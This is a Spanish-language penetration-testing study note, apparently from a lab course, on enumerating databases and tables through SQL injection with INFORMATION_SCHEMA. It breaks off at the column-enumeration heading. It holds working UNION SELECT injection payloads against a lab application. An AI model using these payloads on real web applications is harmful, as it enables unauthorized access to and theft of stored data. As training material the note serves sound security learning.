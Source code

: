 ![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/1402b783-7966-42cb-bd60-a34b3365f858)

### ESQUEMA DE INFORMACION DE BASE D DATOS

Los datos que nos da la tabla usando "UNION SELECT" necesitaremos hacer consultas con "SELECT"

- Listar bases de datos
- Listar tables con la base de datos
- Listar columnas con la tabla

Con la información podemos hacer un select en cualquier base de dato y utilziar "INFORMTAION_SCHEMA"

Contiene los metadatos sobre la base de datos y las tablas de servidor. Es un rol crucial mientas explotas Injecciones SQL.

```
SELECT * FROM my_database.users;
```

## ESQUEMA

Para empezar una enumearcion en un DBMS en "INFORMATION_SCHEMA" contiene la información de todas las basesd e datos del servidor, bamos a hacer un test.

```
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

vemos un "ilfreight" y "dev" bases de datos.

```
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```
![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/4f78f3ce-fe9a-4707-8e91-3606f530d64b)

Vemos las dos bases y podemos buscar información sobre la aplicación y podemos utilziar "SELECT Database()"
```
cn' UNION select 1,database(),2,3-- -
```

## TABLAS

Antes de dumpear los datos de la base de datos "dev" nosotros necesitamos una lista de las tablas con la consulta "SELECT" para buscar todas las tablas con la base de datos.

Las tablas contienen la informacion sobre la base de datos

```
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

## COLUMNAS
